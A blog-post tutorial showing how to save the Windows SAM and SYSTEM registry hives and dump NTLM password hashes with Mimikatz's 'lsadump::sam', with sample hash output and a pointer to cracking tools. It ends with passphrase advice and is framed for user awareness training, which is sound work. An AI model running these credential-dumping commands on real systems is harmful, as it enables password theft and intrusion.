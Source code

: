 ```yaml
---
author: Josh
date: 2020-11-23
layout: post
title: "Dumping NTLM Hashes from SAM using Mimikatz"
image: https://joshdawes.com/images/2020-11/mimikatz.png
description: Mimikatz is a tool that can allow you to extract all kinds of Windows secrets. In this post I will show you how to dump password hashes from a SAM database.
permalink: /dumping-ntlm-hashes-from-sam-using-mimikatz/
---
```


![image](/images/2020-11/mimikatz.png){: .center-image }

<strong>TL;DR:<strong>```lsadump::sam /system:SYSTEM /sam:SAM```

Previously I had written a blog post on [Dumping NTLM Hashes](https://joshdawes.com/dumping-ntlm-hashes/){:target="_blank"}
 with SamDump2. This method does not work for PCs running Windows 10 1607 or newer. I found this [great write up](https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/){:target="_blank"} explaining what changed with 1607. 

With these changes, different methods are required to dump NTLM hashes. One of these methods is to use Mimikatz. Mimikatz is a tool that can allow you to extract all kinds of Windows secrets. In this post I will show you how to dump password hashes from a previously acquired SAM (Security Account Manager) database. You will also need to acquire the SYSTEM database so Mimikatz can use the SysKey to decrypt the SAM database. The SAM and SYSTEM databsases are located in:

```
C:\Windows\system32\config\
```

# Prerequisites

Download [Mimikatz](https://github.com/gentilkiwi/mimikatz){:target="_blank"} and extract to C:\mimikatz_trunk

Save your SAM and SYSTEM databases in the Mimikatz directory. i.e. C:\mimikatz_trunk\x64

# Saving SAM and SYSTEM Databases

To quickly get a SAM and SYSTEM database run the following commands:

```
reg save HKLM\SAM c:\mimikatz_trunk\x64\SAM
reg save HKLM\SYSTEM c:\mimikatz_trunk\x64\SYSTEM
```

Note: You will be required to have administrator access to run these commands and the directory must already exist. 


# Dumping Hashes
Now that you have Mimikatz, the SAM database, and the SYSTEM database in the same directory, double click on mimikatz.exe. 

You will be presented with the mimikatz command line. The first command you’ll want to run is the log command. This will allow you to save the output of what you are doing to a file for later reference. Start logging with the following command:

```
log mimikatz.log
```

The log file will save in the current directory. 

You can now run the command to dump the hashes from the SAM database. This will be conveniently written to your log file.

```
lsadump::sam /system:SYSTEM /sam:SAM
```

The hashes will also appear on the screen. Type <strong>exit</strong> to close Mimikatz.

# Finding your Hashes

Now that you have dumped the hashes you can check your log file to view them. They will look something like this:

```
RID  : 000003ea (1002) 

User : User1 

  Hash NTLM: 0ea0e4bb502bd4acaf6997d7c26b54d1 

  

RID  : 000003eb (1003) 

User : User2 

  Hash NTLM: 326f5f6c590b925012b8930758b42148 

  

RID  : 000003ec (1004) 

User : User3 

  Hash NTLM: 1337bdd3c9fa21e8d72849e1618d2535 

   

RID  : 000003ed (1005) 

User : User4 

  Hash NTLM: 9ad1180ec59ccbca760e6de738fb4d70 

  

RID  : 000003ee (1006) 

User : User5 

  Hash NTLM: 6b56ad7d13656b993ded0758f58794f6
```

Copy the <strong>Hash NTLM</strong> string into another text file so you have a text file that looks like the one below.

```
0ea0e4bb502bd4acaf6997d7c26b54d1 
326f5f6c590b925012b8930758b42148 
1337bdd3c9fa21e8d72849e1618d2535 
9ad1180ec59ccbca760e6de738fb4d70 
6b56ad7d13656b993ded0758f58794f6
```

These hashes can then be loaded into Hashcat or John the Ripper to attempt to crack the password.

# Creating a Stronger Password

It is not practical to have a 30-character randomly generated string of characters for your Windows password. Typing this in every time you came back to your desk would be tedious and it would be somewhat impossible for most people to remember. Could you imagine typing in <strong>@nZYf6S%&zZUjf4)YXc9=Y}7Yg{gPB</strong> every time you sat down at your desk? 

Users tend to go with something that is easy to type and easy to remember. i.e. a single word with a capital letter at the beginning and a number at the end, i.e. Summer2020.

Unfortunately, these simple passwords can be cracked very quickly. 

I recommend using a passphrase. A passphrase, while still a password, is multiple words put together which makes it harder for an attacker to crack but should still be reasonably simple to remember after a few days of logging in. It is best to create a passphrase using [diceware](https://theworld.com/~reinhold/diceware.html){:target="_blank"}.

An example diceware password is: <strong>preacherherringcirclelumpiness</strong> 

Of course, you will still need to add some uppercase letters, lowercase letters, symbols, and numbers to meet password requirements. Leaving you with something like:<br><strong>124/Preacher/Herring/Circle/Lumpiness</strong> 

Both Samsung and Apple have built in password managers that you could use to store the passphrase until you remember it.

# Conclusion

Running a simple password dump and cracking the hashes during user awareness training is a great way to highlight how easily a weak password can be exploited. Users can see in real time how quickly an attacker could crack their password, and you can show how quickly an attacker can pivot from there.
